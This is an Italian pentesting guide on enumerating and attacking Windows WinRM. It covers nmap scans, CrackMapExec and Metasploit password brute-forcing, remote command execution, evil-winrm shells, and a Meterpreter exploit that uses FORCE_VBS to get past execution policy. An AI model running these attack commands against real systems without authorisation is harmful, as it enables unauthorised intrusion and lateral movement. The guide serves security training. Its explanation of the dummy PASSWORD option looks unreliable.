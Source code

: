 # WinRM Enumeration

WinRM (Windows Remote Management) è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. È basato su HTTP e HTTPS, e le sue porte predefinite sono:

- `5985/TCP` per HTTP
- `5986/TCP` per HTTPS

WinRM viene usato in ambienti Windows moderni, soprattutto in Active Directory, per gestire sistemi da remoto. Se correttamente configurato, può essere un punto d’accesso molto potente per un attaccante.

## Attenzione alla scansione

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>`

Oppure, per script specifici:

`nmap -p 5985 --script http-winrm-info <IP>`

Questa scansione verifica se WinRM è attivo e restituisce informazioni come header HTTP, certificati e dettagli del server.

## Enumerazione e attacco con CrackMapExec

Per attaccare WinRM è molto utile il tool `crackmapexec`, che supporta vari protocolli di Windows. Per visualizzare tutti i moduli e opzioni disponibili, esegui:

`crackmapexec`

Per effettuare un attacco di brute-force sul servizio WinRM:

`crackmapexec winrm <IP> -u <username> -p <wordlist>`

Un ottimo punto di partenza è usare come username `administrator`, poiché è il primo utente generato quando WinRM viene attivato ed è dotato di privilegi amministrativi.

Se una password valida viene trovata, puoi rieseguire lo stesso comando con la password corretta e aggiungere `-x "<comando>"` per eseguire comandi remoti:

`crackmapexec winrm <IP> -u administrator -p Password123 -x "whoami"`

Puoi così eseguire `whoami`, `systeminfo`, `hostname` o altri comandi informativi.

## Accesso interattivo con Evil-WinRM

Per ottenere una vera e propria shell PowerShell remota, usa `evil-winrm`:

`evil-winrm.rb -u <username> -p '<password>' -i <IP>`

Questo comando apre una sessione interattiva da cui puoi:

- Eseguire comandi PowerShell
- Caricare o scaricare file
- Lanciare script di post-exploitation
- Raccogliere informazioni sulla macchina e sulla rete

## Enumerazione dei metodi di autenticazione con Metasploit

Prima di tentare qualsiasi attacco di brute-force o accesso interattivo, è buona pratica usare il modulo `auxiliary/scanner/winrm/winrm_auth_methods`. Questo modulo ti permette di verificare quali metodi di autenticazione sono abilitati sul servizio WinRM.

Può mostrare, ad esempio, se il server accetta:

- Autenticazione di tipo base (username/password in chiaro)
- Autenticazione NTLM (usata con hash o per pass-the-hash)
- Autenticazione Kerberos (nei domini Active Directory)

Per utilizzarlo:

`use auxiliary/scanner/winrm/winrm_auth_methods` <br>
`set RHOSTS <IP>` <br>
`run` <br>

Il suo output ti aiuterà a capire qual è il metodo di attacco più adatto.

## Brute-force con Metasploit

Metasploit include un modulo per tentare il login sul servizio WinRM in modo automatico. È utile se vuoi testare più combinazioni di credenziali in un attacco dizionario.

Apri `msfconsole` e utilizza il modulo:

`use auxiliary/scanner/winrm/winrm_login` <br>
`set RHOSTS <IP>` <br>
`set USERNAME <username>` <br>
`set PASS_FILE <path_alla_wordlist>` <br>
`set PASSWORD anything` <br>
`run` <br>

Questo modulo tenterà tutte le password contenute nella wordlist indicata per lo username specificato. È utile anche per testare una lista di utenti con:

`set USER_FILE <lista_utenti>` <br>
`set PASS_FILE <lista_password>` <br>

Attenzione perché questo modulo specifico richiede comunque che venga impostata l’opzione `PASSWORD`, altrimenti non potrà procedere all'esecuzione del payload remoto. In contesti in cui non hai la password reale (ma per esempio solo l’hash), puoi semplicemente usare un valore qualunque, come la stringa `anything`.

Questo funziona perché il modulo non verifica la correttezza della password prima dell’esecuzione: la connessione e l’autenticazione sono già state risolte dalla sessione stabilita, ma il modulo necessita comunque che il campo PASSWORD sia popolato per non generare errori di esecuzione.

Può essere una buona alternativa a `crackmapexec` in ambienti dove preferisci restare dentro Metasploit o tracciare tutto in sessioni di lavoro.

## Esecuzione di comandi remoti con winrm_cmd di Metasploit

Se hai ottenuto delle credenziali valide (username e password), ma non vuoi, o non puoi, usare strumenti esterni come `evil-winrm`, puoi eseguire comandi remoti direttamente da Metasploit grazie al modulo:

`auxiliary/scanner/winrm/winrm_cmd`

Questo modulo ti consente di inviare ed eseguire un singolo comando PowerShell sul sistema target tramite WinRM. È molto utile in fase di verifica, soprattutto quando vuoi testare rapidamente se le credenziali funzionano oppure per eseguire piccoli comandi diagnostici (`whoami`, `hostname`, `ipconfig`, ecc.) senza stabilire una sessione interattiva.

A cosa serve?
- Verificare se le credenziali funzionano prima di passare a shell o exploit più complessi.
- Eseguire comandi silenziosi e mirati in ambienti con sorveglianza attiva o logging pesante.
- Testare permessi e contesto utente (es. capire se sei Administrator, se hai accesso a cartelle specifiche, ecc.).
- Può essere utile per ambienti in cui le policy di sicurezza bloccano strumenti esterni o eseguibili come evil-winrm.

Ricorda che puoi usare questo modulo più volte, modificando ogni volta il valore di CMD per inviare comandi diversi e costruirti così un piccolo profilo del target senza bisogno di stabilire una sessione persistente.

## WinRM con Metasploit – Accesso Meterpreter

Esiste anche un exploit in Metasploit per ottenere una sessione Meterpreter tramite WinRM:

`use exploit/windows/winrm/winrm_script_exec`

Configura i seguenti parametri:

- `set RHOST <IP>`
- `set LHOST <tuo_IP>`
- `set USERNAME <utente>`
- `set PASSWORD <password>`
- `set FORCE_VBS true`

### Cosa fa FORCE_VBS?

WinRM supporta l’esecuzione remota di script in PowerShell, ma a volte i permessi o le policy locali bloccano certi tipi di comandi interattivi. L'opzione `FORCE_VBS true` forza l'esecuzione dello script tramite un wrapper in VBScript, che spesso **bypassa restrizioni di esecuzione o policy di gruppo** troppo restrittive. Questo aumenta la compatibilità e l'affidabilità dell'exploit in ambienti più protetti.

## Considerazioni finali

WinRM è uno dei metodi più potenti per accedere da remoto a macchine Windows in modo completamente interattivo. È sicuro solo se ben configurato e filtrato via firewall. Se trovi le porte 5985 o 5986 aperte e riesci a ottenere le credenziali, puoi:

- Ottenere shell con privilegi elevati
- Eseguire lateral movement
- Eseguire escalation di privilegi
- Lanciare exploit o script direttamente in memoria

Per questo motivo, ogni volta che trovi WinRM attivo, va considerato un obiettivo critico.
